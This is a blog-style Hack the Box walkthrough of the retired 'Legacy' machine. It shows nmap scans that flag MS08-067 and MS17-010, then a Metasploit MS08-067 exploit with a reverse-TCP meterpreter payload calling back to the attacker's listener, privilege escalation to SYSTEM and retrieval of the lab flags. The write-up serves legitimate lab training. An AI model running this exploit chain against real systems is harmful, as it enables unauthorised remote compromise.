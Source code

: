 ```yaml
---
title: Legacy, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-01-11-legacy-hack-the-box-walkthrough/legacy.png
layout: post
description: ""
date:   2021-01-10 20:01:21 -0400
last-updated: 2021-01-10 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.
---
```


Legacy is an easy level retired capture the flag machine from Hack the Box. This writeup will describe the techniques I used to bypass security controls and gain root access to the machine.

## Getting Started   
The first thing i did was conduct a basic <kbd>nmap</kbd> scan to search for the top 200 open ports on the target.  

```bash
──(kali㉿kali)-[~/Documents/htb/legacy]
└─$ nmap --top-ports 200 -Pn 10.10.10.4
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 14:50 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).
Not shown: 197 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.57 seconds
                                                                                                                                                          
```  

The scan shows there are at least 2 open ports with services such as netbios and microsoft-ds running. Next, to get a better understanding of the services and version running, and to scan for basic vulnerabilities, I used the <kbd>nmapAutomator</kbd> script.  The below output only shows the most relevant information.  

```bash
---------------------Starting Nmap Vulns Scan---------------------
                                                                                                          
Running CVE scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Nmap scan report for 10.10.10.4
Host is up (0.023s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds


Running Vuln scan on basic ports
                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 15:00 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.021s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.12 seconds
```  

The scan shows the target is likely vulnerable to CVE-2008-4250, a serious vulnerability also referred to by its [microsoft bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) identifier, Microsoft Windows Server 2000/2003 - Code Execution (MS08-067). There is a public exploit for this vulnerability on metasploit (exploit/windows/smb/ms08_067_netapi), so next i started up the <kbd>msfconsole</kbd> and configured the necessary options.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > 
```  

Executing the exploit started a reverse meterpreter session on the target. Using the <kbd>getsystem</kbd> meterpreter command, I upgraded my privilege to SYSTEM. At this point I can start looking for the user and root flags.  

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1028) at 2021-01-11 10:22:35 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```  

I used the <kbd>search</kbd> meterpreter command and found both flags. 

```bash
meterpreter > search -f *user.txt*
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644fmeterpreter > 
```  
```bash
meterpreter > search -f *root.txt*
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713meterpreter > 
```  
## Conclusion  
Overall this was an easy CTF machine that was vulnerable to a very popular windows exploit.  

